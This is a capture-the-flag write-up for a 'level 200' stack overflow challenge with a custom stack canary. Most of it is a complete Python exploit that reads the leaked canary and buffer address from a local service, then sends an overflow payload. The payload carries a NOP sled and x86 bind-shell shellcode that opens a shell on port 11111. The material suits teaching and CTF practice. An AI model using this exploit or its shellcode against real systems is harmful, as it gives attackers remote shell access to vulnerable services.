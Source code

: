 #Details

This level 200 challenge has a very obvious buffer overflow vulnerability but with a little twist, the devious geniuses at ISIS labs implemented their own custom stack canary buffer overflow protection! Well given that it is a 200 level challenge they made things a lot easier by sending us the canary value used and the address of the buffer on the stack. With these two values in hand its a straight forward buffer overflow exploit.

#Exploit


```
import socket
import struct
import time


def pack(addr):
  return struct.pack('<I', addr)

def unpack(addr):
  return struct.unpack('<I', addr)

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 31338))

#Receive the address of the buffer on the stack
buffer_address = s.recv(5)
buffer_address = unpack(buffer_address[0:4])[0]

#Calculate the offset from the start of the buffer to the location of the shellcode.
#Padding: 2048, Canary: 4, Padding: 12, EIP: 4, NOP sled + payload
#Jump to the middle of the NOP sled
offset = (2048 + 4 + 12 + 4 + 16)

shellcode_addr = buffer_address + offset
shellcode_addr = pack(shellcode_addr)

#Receive the canary.
canary = s.recv(4)

s.recv(1024)


##http://www.shell-storm.org/shellcode/files/shellcode-836.php
##Bind shell on port 11111
payload = ( "\x31\xdb\xf7\xe3\xb0\x66\x43\x52\x53\x6a\x02"
          "\x89\xe1\xcd\x80\x5b\x5e\x52\x66\x68\x2b\x67"
          "\x6a\x10\x51\x50\xb0\x66\x89\xe1\xcd\x80\x89"
          "\x51\x04\xb0\x66\xb3\x04\xcd\x80\xb0\x66\x43"
          "\xcd\x80\x59\x93\x6a\x3f\x58\xcd\x80\x49\x79"
          "\xf8\xb0\x0b\x68\x2f\x2f\x73\x68\x68\x2f\x62"
          "\x69\x6e\x89\xe3\x41\xcd\x80")

s.send("A"*2048 + canary + "AAAABBBBCCCC" + shellcode_addr + "\x90"*64 +payload)


s.close()
```
